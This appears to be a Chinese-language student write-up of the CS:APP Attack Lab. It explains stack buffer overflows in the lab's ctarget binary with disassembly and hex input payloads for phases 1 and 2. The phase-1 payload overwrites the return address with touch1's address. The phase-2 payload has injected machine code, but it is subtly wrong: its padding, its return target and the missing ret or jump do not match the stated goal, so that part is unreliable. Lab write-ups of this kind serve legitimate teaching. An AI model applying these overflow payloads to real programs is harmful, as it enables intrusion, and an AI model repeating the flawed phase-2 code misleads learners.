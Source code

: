 注意，运行./rtarget或者ctarget可能有问题，加上-q即可

## attack1:

我使用的操作系统是Ubuntu 22.04版本，在这个版本上运行ctarget程序会出现Segmentation Fault。如果你用gdb调试会发现在__vfprintf_internal方法内部有问题，具体修复方法可以参考：[Fix CS:APP Attack Lab Segmentation Fault on Newest Ubuntu 22.04](https://blog.rijuyuezhu.top/posts/db646f34/)。建议使用更老的linux版本。我使用18是没问题的。

请先阅读attacklab.pdf

`hex2raw` 是一个字一个字的读，也就是一次读8个字节，但是字内部是小端，比如attack1.txt：`41 00 00 00 00 00 00 00`

执行./hex2raw < attack1.txt会输出 `A`。`./hex2raw < attack1.txt | ./ctarget -q`我们可以用这个命令执行程序

根据pdf的意思，我们首先要侵入一个程序，让它运行 `4017c0 <touch1>:` 。方法需要你知道栈的运行过程，当我们调用函数的时候，会自动的把程序的返回地址先压入栈中，然后再进入调用的函数，调用完成后返回，示意图如下：

```
[ 返回地址 ]        <--- 函数返回后，跳转到这里执行
[ buffer (x 字节) ]<--- 局部变量，用于存储用户输入
```

我们这个程序是从 `401968 <test>` 函数开始的

```asm
0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax
  401971:	e8 32 fe ff ff       	callq  4017a8 <getbuf>
```

```asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

getbuf给栈分配了40个字节的空间，40个之后就是返回地址了。所以我们先随便输入40个字节，再把后面的八个字节换成touch1的地址4017C0就成功了。

输入
```
A0 00 00 00 00 00 00 00
B0 00 00 00 00 00 00 00
C0 00 00 00 00 00 00 00
D0 00 00 00 00 00 00 00
E0 00 00 00 00 00 00 00
C0 17 40 00 00 00 00 00
```

## attack2:

可能大家会有一个问题，返回地址只有8个字节，那我们需要放指令在里面怎么办。我们顺着往后加就行了。因为getbuf分配了40个字节。

attack2需要设置%rdi的值为2，然后返回就行了。

设置寄存器 `%rdi` 的值为 `2` 的汇编指令和字节表示如下：

---

### 汇编指令
```asm
mov $2, %rdi
```

---

### 字节表示（机器码）

1. 使用 **mov 指令** 加载立即数到寄存器 `%rdi`：
   - `movabs $imm64, %rdi`
   - 对应的机器码为：
     ```
     48 bf <imm64>
     ```
   - 其中：
     - `48 bf` 是 `movabs` 指令的操作码。
     - `<imm64>` 是目标值（`2`），用 64 位小端字节序表示。

   - `bf` 是 `movabs` 的专用操作码，用于指定目标寄存器为 `%rdi`。
   - 操作码中的寄存器编码是硬编码的。  
     - 在 x86-64 的指令集中，寄存器编号（Register ID）被直接嵌入操作码或操作数中。

2. 具体编码：
   - `2` 的 64 位小端表示为：`02 00 00 00 00 00 00 00`
   - 最终机器码为：
     ```
     48 bf 02 00 00 00 00 00 00 00
     ```

结果应显示类似：
```
   48 bf 02 00 00 00 00 00 00 00   mov $0x2,%rdi
```



输入
```
A0 00 00 00 00 00 00 00
B0 00 00 00 00 00 00 00
C0 00 00 00 00 00 00 00
D0 00 00 00 00 00 
48 bf 02 00 00 00 00 00 00 00  /* mov $0x2,%rdi */
C0 17 40 00 00 00 00 00
```
